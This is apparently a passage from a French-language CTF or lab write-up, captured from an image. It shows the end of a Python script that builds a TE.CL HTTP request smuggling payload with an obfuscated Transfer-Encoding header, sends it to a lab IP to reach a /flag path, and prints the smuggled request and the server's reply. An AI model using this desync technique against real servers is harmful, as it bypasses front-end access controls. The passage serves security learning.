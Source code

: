 ```python
    dummy_request = (                                                                                                  
        f"GET /yolo HTTP/1.1\r\n"                                                                                      
        f"Host: {parts.netloc}\r\n"                                                                                    
        "\r\n"                                                                                                         
    )                                                                                                                  
    wrapping_request += body + dummy_request                                                                           
    return wrapping_request                                                                                            
                                                                                                                       
                                                                                                                       
req = te_cl("http://192.168.242.131/flag", "chunkedyolo")                                                              
print(req)                                                                                                             
                                                                                                                       
sock = socket.socket()                                                                                                 
sock.connect(("192.168.242.131", 80))                                                                                  
sock.send(req.encode())                                                                                                
print(sock.recv(2048).decode())                                                                                        
print(sock.recv(2048).decode())                                                                                        
print(sock.recv(2048).decode())                                                                                        
print(sock.recv(2048).decode())                                                                                        
sock.close()
```

A l'exécution ça donne ceci :

```http
POST /nawak HTTP/1.1
Host: 192.168.242.131
Transfer-Encoding: chunkedyolo
Content-Length: 4
Connection: keep-alive

40
GET /flag HTTP/1.1
Host: 192.168.242.131
Content-Length: 7


0

GET /yolo HTTP/1.1
Host: 192.168.242.131


HTTP/1.1 404 NOT FOUND
Server: gunicorn/20.0.1
Date: Mon, 21 Nov 2022 22:51:14 GMT
Connection: keep-alive
Content-Type: text/html; charset=utf-8
```